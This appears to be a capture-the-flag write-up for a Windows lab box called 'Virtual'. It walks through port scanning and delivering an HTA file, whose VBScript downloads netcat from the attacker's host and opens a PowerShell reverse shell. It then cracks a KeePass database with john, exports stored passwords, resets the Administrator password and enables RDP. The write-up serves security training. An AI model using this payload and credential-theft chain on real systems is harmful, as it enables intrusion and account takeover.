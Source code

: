 ## Virtual

### User flag

```bash
$ nmap -sS -sV -Pn -n -p- -T5 10.129.1.26

Nmap scan report for 10.129.1.26
Host is up (0.023s latency).
Not shown: 65522 closed ports
PORT      STATE SERVICE       VERSION
80/tcp open  http    Apache httpd 2.4.48 ((Win64) PHP/8.0.8)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

For this challenge, we were given a web application listening on the port 8080, hosted on Windows, that provided a contact form with the indication "`We usually respond to queries after a few minutes`":
![Virtual web](../img/virtual_1.png)

We noticed we could send arbitrary links that ended being browsed by Internet Explorer. For example, by submitting the form with the message `http:///10.10.14.65:8080/aa`, we received the following request:
```bash
$ nc -nlvp 8080

GET /aa HTTP/1.1
Accept: /
Accept-Language: en-US
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
Host: 10.10.14.65:8080
Connection: Keep-Alive
```

After playing a bit with JavaScript, we tried to provide an HTML Application (HTA) to Internet explorer, and we were surprised it worked.

We then submitted another HTML Application that downloaded and executed a pre-built *netcat* binary in order to spawn a reverse shell on the box:

```bash
$ cat index.hta

<html>
<head>
<script language="VBScript">
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "powershell curl http://10.10.14.65:8080/nc.exe -o C:/Windows/Temp/nc.exe; C:/Windows/Temp/nc.exe 10.10.14.65 9999 -e powershell.exe"
    End Sub
RunProgram()
</script>
</head>
<body>
    Nothing to see here..
</body>
</html>

$ python3 -m http.server 8080

POST / HTTP/1.1
Host: 10.129.1.26
Content-Type: application/x-www-form-urlencoded
Content-Length: 86

name=b&email=aa%40aa.com&subject=a&message=http%3A%2F%2F10.10.14.65%3A8080%2Findex.hta
```

Once the application was ran by Internet Explorer, we received a reverse shell. 

We noticed we were already local Administrator. However, there was only a user flag on the file system:

```bash
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.65] from (UNKNOWN) [10.129.1.26] 49632
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Apache24\htdocs>> whoami /all
whoami /all

USER INFORMATION
----------------
User Name             SID                                         
===================== ============================================
virtual\administrator S-1-5-21-1926016034-1676465966-846418798-500

GROUP INFORMATION
-----------------
Group Name                                                    Type             SID                                           Attributes                                                     
============================================================= ================ ============================================= ===============================================================
Everyone                                                      Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114                                     Mandatory group, Enabled by default, Enabled group             
VIRTUAL\docker-users                                          Alias            S-1-5-21-1926016034-1676465966-846418798-1000 Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                                        Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner
[...]

PS C:\Users\dev\Desktop> type user.txt
type user.txt
HTB{9077a_l0ve_H7a}
```

When searching for the root flag, we noticed multiple interesting files and directories:

* C:\Users\dev\Documents\\Database.kdbx
* C:\Users\Administrator\\.docker
* C:\Users\Administrator\\.minikube
* C:\Users\Administrator\\.VirtualBox

The KeePass database was protected by a password so we cracked it using john:

```bash
$ keepass2john Database.kdbx > hashes.lst

$ john --wordlist="SecLists/Passwords/Leaked-Databases/rockyou-75.txt" hashes.lst 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
purple           (Database)
1g 0:00:00:00 DONE (2021-07-27 03:16) 5.555g/s 200.0p/s 200.0c/s 200.0C/s sunshine..justin
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The database contains a custom entry named `Docker Server`:

```bash
$ keepassxc-cli export Database.kdbx  -f csv
Enter password to unlock Database.kdbx: purple

"Group","Title","Username","Password","URL","Notes"
"Database","Sample Entry","User Name","Password","https://keepass.info/","Notes"
"Database","Sample Entry #2","Michael321","12345","https://keepass.info/help/kb/testform.html",""
"Database/Network","Docker Server","dev","VeryStrongPassword1!","",""
```

We listed the VirtualBox machines belonging to the Administrator user:

```bash
PS C:\Program Files\Oracle\VirtualBox> ./VBoxManage list vms
"Docker" {11bdf380-f3ae-422e-92f7-6f0f816743d1}
```

As we noticed a Docker VM running on VirtualBox, we decided to set up an RDP in order to easily interact with the VM. To do so, we enabled RDP and we changed the local Administrator password:

```bash
PS> net user Administrator Test1234
net user Administrator Test1234
The command completed successfully.

PS> reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

Finally, we logged in using the RDP access, and we authenticated as `dev` on the Docker VM's console with the password `VeryStrongPassword1!` that was stored on the KeePass:

```bash
$ xfreerdp /u:Administrator /p:'Test1234' /v:10.129.1.26
[03:31:09:044] [9943:9944] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[03:31:09:044] [9943:9944] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[03:31:09:044] [9943:9944] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd
[03:31:09:044] [9943:9944] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr
```
 
![Docker VM graphical console](../img/virtual_2.png)

The `dev` user was on the sudoers so it was allowed to escalate its privileges to `root` inside the VM and to read the root flag:

![Docker VM graphical console logged in](../img/virtual_3.png) 

From the screen, we read `HTB{v80X_G0t_m4n4g3d}`.
